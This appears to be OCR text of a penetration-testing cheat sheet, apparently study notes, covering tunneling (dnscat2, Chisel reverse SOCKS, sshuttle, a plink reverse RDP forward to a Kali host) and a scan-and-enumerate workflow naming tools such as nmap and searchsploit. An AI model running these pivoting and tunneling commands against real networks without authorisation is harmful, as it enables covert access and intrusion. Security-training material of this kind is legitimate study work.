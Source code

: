 			1. `proxychains curl 127.0.0.1:8000`
---
# Tunneling

1. **DNS**
	1. `dnscat2`
		1. Start the dnscat2 server
			1. `dnscat2-server hhentai.corp`
		2. Run dnscat2 client
			1. `./dnscat hhentai.corp`
2. **HTTP**
	1. `Chisel`
		1. Start Chisel server (reverse proxy)
			1. `chisel server --port 8080 --reverse`
		2. Start Chisel client
			1. `.\chisel.exe client 192.168.100.5:8080 R:socks`
3. **SSH**
	1. sshuttle
		1. Set up a local port forward on the machine
		2. Run sshuttle from our Kali machine
			1. `sshuttle -r db_admin@192.168.133.32:2222 10.4.202.0/24 172.16.202.0/24`
		3. Run tools on internal IP addresses without any explicit forwarding
	2. plink
		1. Start SSH server on our Kali machine
		2. Navigate to Windows machine
		3. Making an SSH connection to our Kali machine
			1. `plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.201.4`
---
# Vulnerability Scanning

1. **Host discovery**
	1. `nmap`
2. **Port scanning (Full scan)**
	1. `nmap`
	2. `autorecon`
	3. `rustscan`
3. **Detect OS, Services, Versions**
	1. `whatweb`
	2. `nmap NSE`
	3. `Nessus`
4. **Enumerate services**
	1. SMB Enumeration
		1. `nmap`
		2. `nbtscan`
		3. `net view`
		4. `smbclient`
	2. SMTP Enumeration
		1. `nc`
		2. `telnet`
		3. `python`
		4. `PowerShell`
	3. SNMP Enumeration
		1. `nmap`
		2. `onesixtyone`
		3. `snmpwalk`
5. **Match results to a vulnerability database**
	1. `searchsploit`
6. **Fix exploits and use**
---